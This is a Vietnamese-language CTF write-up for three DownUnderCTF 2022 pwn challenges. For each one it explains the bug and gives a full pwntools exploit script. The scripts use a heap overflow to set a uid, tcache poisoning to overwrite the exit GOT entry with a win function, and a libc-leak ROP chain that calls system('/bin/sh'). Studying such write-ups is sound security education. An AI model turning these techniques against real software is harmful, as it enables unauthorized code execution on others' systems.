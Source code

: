 # Writeup DownUnderCTF 2022
###### tags: `writeup`

### login

#### Analyze 

Check sơ qua source thì cơ bản chỉ gồm 2 function chính 

* Một là `Add user`: Tạo 1 struct `user_t` gồm `uid` và `username` sau đó nhập độ dài (không được lớn hơn 0x18) và nhập username với độ dài tương ứng đã nhập ở trên. 
* Hai là `login`:  Đơn giản chỉ là nhập username vào và nó check thử xem đã có username đó hay chưa ngoài ra nó còn check nếu `uid` = 0x1337 thì nó sẽ chạy `system('/bin/sh')`. Tuy nhiên thì mỗi lần `Add user` thì `uid` sẽ tự động cộng lên một (ban đầu `uid` được set = 0x1337). 

#### Exploit

Vì struct `user_t` được khai báo như một con trỏ với typedef, vì vậy `len(user_t)` sẽ trả về 8. Có nghĩa là khi `allocate` một chunk thì chunk đó sẽ có size 0x20. Điều đó có nghĩa ta có bug overflow ở đây, bởi vì size của một chunk nó nhỏ hơn size của struct. Vậy nên ta có thể lợi dụng biến `username` để có thể ghi đè lên chunk tiếp theo, tuy nhiên vì biến `username` bị giới hạn chỉ read trong khoảng 0x18 byte vậy nó không thể ghi đè biến `uid` lên chunk tiếp theo nếu chỉ đọc trong khoảng 0x18 byte. 

Nhìn kỹ lại source thì ta phát hiện có một bug khác nằm ở hàm `read_n_delimited`. Hàm `read_n_delimited` read n-1 bytes, dừng ở biến `delimiter` và thay thế null byte vào byte cuối cùng ngay khi đọc hết byte vào buffer(để tránh off-by-one). Tuy nhiên trong hàm này không check kỹ độ dài đọc vào buffer, vậy nên ta có thể đọc bất cứ bao nhiêu byte vào buffer mà ta muốn, vòng lặp while kiểm tra điều kiện i <= n-1 với n được khai báo là unsigned int, tuy nhiên chúng ta không thể nhập một số rất lớn hay là một số âm vì nó sẽ không thỏa mãn điều kiện độ dài nhỏ hơn 0x18 nhưng mà chúng ta có thể nhập độ dài là 0 thì điều kiện sẽ luôn được thỏa mãn và chúng ta đã có thể đọc bất kỳ bao nhiêu ký tự mà chúng ta muốn. 

Bây giờ chúng ta cần phải set `uid` của một struct `user_t` = 0x1337, bài này mình sẽ write data vào top chunk và khi allocate user tiếp theo thì nó sẽ check `uid` và ta đã có được shell

```py
from pwn import * 
r = process('./login')

def reg(len,name):
    r.sendlineafter(b'> ',b'1')
    r.sendlineafter(b'Username length: ',str(len).encode())
    r.sendlineafter(b'Username: ',name)
def login(name):
    r.sendlineafter(b'> ',b'2')
    r.sendlineafter(b'Username: ',str(name))

payload = b'a'*20 + p64(0x20d31) + p64(0x1337) + b'c'
reg(0,payload)
# gdb.attach(r)
reg(2,'c')
login('c')

r.interactive()
```
### p0ison3d

Bởi vì bài này khá là đơn giản nên mình sẽ lướt sơ qua và script mình sẽ để ở bên dưới. 

Đây là một bài heap cơ bản, gồm 5 function chính:
* `add new note`: add một note đơn giản gồm index và data (read up to 128 bytes) và chỉ được add tối đa 3 note
* `read note`: in ra nội dung của một note chỉ định thông qua biến index
* `edit note`: hàm này sẽ overwrite data của một chunk tuy nhiên nó đọc tận 153 bytes vì thế ở hàm này có bug overflow 
* `delete note`: đơn giản chỉ là free một chunk và set pointer về null vậy nên không có bug uaf ở đây
* `quit` : exit(0)

#### Exploit

Bài này set `RELRO: Partial RELRO` vì thế strategy của mình đó là mình sẽ lợi dụng bug overflow ở hàm `edit` để có thể ghi đè fd của chunk 0 thành got address của hàm exit rồi sau đó alloc một chunk có data là địa chỉ của hàm win sau đó gọi hàm `quit` thì sẽ trigger đc shell.

```py
from pwn import *

elf = ELF('./p0ison3d')
r = process('./p0ison3d')
def add(index, data):
    r.sendlineafter(b'choice:\n', b'1')
    r.sendlineafter(b'index:\n', str(index))
    r.sendafter(b'data:\n', data)
def edit_note(index, data):
    r.sendlineafter(b'choice:\n', b'3')
    r.sendlineafter(b'index:\n', str(index))
    r.sendlineafter(b'data:', data)
def delete(index):
    r.sendlineafter(b'choice:\n', b'4')
    r.sendlineafter(b'index:\n', str(index))
def gg():
    r.sendlineafter(b'choice:\n', b'5')
add(0, 'aaaa') 
add(1, 'bbbb') 
add(2, 'cccc')

delete(2) # chunk 1 (currently bin)
delete(1) # chunk 2 -> chunk 1 (currently bin)
# gdb.attach(r)
edit_note(0, b'a'*0x90 + p64(elf.got['exit']))
# gdb.attach(r)
add(1,b'dddd')#call fake chunk which elf.got['exit'] lies inside
add(2,p64(elf.sym['win'])) # overwrite fd of fake chunk with win
#call exit will trigger the shell
gg()
r.interactive()
```

### Ezpz - rev - pwn

Một trong những teammate của mình đã solve được câu `Ezpz - rev` sau đó bài này đơn giản chỉ cần nhập key mới tìm được ở câu `Ezpz - rev ` sau đó lợi dụng lỗi bof để có thể leak libc sau khi có libc thì chỉ đơn giản build ROP chain gọi system('/bin/sh')

Bài này chỉ khó ở khúc reverse còn pwn thì khá là đơn giản. 

```py 

from pwn import * 


r = process('./ezpz')
elf = context.binary = ELF('./ezpz')
# libc = ELF('libc-2.35.so')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

solve = b'0101000000001000000101010000101000000001000000000101000110100000000100000010101000000100000000100100001010100000001000000010101000101000000000000000101010010101000000000000000001010100010101000000'
main = 0x4014A0
ret = 0x000000000040101a
pop_rdi = 0x00000000004015d3


payload = solve +  b'a'*36 + p64(pop_rdi) + p64(elf.got['puts'])  + p64(elf.plt['puts']) + p64(main)
r.sendline(payload)
r.recvuntil(b'\n')
leak = u64(r.recv(6).ljust(8,b'\x00'))
print('puts leak: ',hex(leak))
libc.address = leak - libc.sym['puts']
log.info('libc: '+hex(libc.address))
payload_1 = solve + b'a'*36 + p64(ret) + p64(pop_rdi) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system'])
r.sendline(payload_1)
r.interactive()
```


